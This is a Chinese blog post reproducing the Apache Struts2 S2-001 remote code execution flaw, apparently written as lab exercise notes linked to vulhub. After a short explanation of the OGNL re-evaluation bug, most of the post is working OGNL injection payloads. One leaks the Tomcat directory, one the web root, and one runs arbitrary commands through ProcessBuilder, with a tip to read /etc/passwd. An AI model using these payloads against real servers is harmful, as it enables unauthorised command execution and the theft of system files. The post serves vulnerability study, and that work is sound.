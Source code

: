 ```yaml
---
title: S2-001 远程代码执行漏洞
date: 2020-07-27 21:48:24
categories: 漏洞复现
tags: struts2
---
```


#### 背景

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行。

<!--more-->

#### 获取tomcat执行路径

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

![](http://qn.laohuan.xin/2020-07-27_21-31-50.png)

#### 获取Web路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

![](http://qn.laohuan.xin/2020-07-27_21-33-14.png)

#### 任意命令执行

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](http://qn.laohuan.xin/2020-07-27_21-37-08.png)

通过改变`new java.lang.String[]{"cat","/etc/passwd"}`来执行任意命令

#### 参考链接

<http://github.com/vulhub/vulhub/blob/master/struts2/s2-001/README.zh-cn.md/>
